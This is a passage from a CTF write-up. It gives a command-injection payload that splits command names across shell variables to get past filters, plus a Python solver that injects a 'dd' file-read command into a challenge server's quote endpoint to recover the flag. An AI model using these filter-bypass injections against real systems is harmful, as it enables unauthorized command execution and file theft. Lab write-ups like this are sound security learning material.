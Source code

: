 ```
            f.write(output + '\n')
        
        os.system(f'sleep 0.5 && rm {file_path} &')
```

ls payload: `a=l;b=s; $a$b /`
solver
```python
#!/usr/bin/env python3
import requests
import time
import datetime
import binascii

BASE_URL = "http://chall-ctf.ara-its.id:12124"

payload = {
    "input": "a=t;b=xt;dd if=/555fa546f50f3e869c7d1d5669ef280a.$a$b bs=1"
}

session = requests.Session()

r = session.post(BASE_URL + "/get_quotes", data=payload)
if r.status_code != 200:
    print("post fail")
    exit(1)


now_str = datetime.datetime.now().strftime('%Y%m%d%H%M')
hex_now = binascii.hexlify(now_str.encode()).decode()
filename = f"{hex_now}.txt"
file_url = BASE_URL + "/generated_quotes/" + filename
print(f"{filename}")


for i in range(10):
    r_file = session.get(file_url)
    if r_file.status_code == 200 and r_file.text.strip() != "":
        print(r_file.text.strip())
        break
    time.sleep(0.1)
else:
    print("eror")
```
`ARA6{Raden_Banter_is_SPEEEEEEEED_SUIIIIIIIIII} `

## AI?
### ilynaga
GA TAU, INI CHALL APAAN SIH
![{AC51F5BC-5298-45E7-B4EA-11A44E7CD32A}](https://hackmd.io/_uploads/BkHKKkLYke.png)
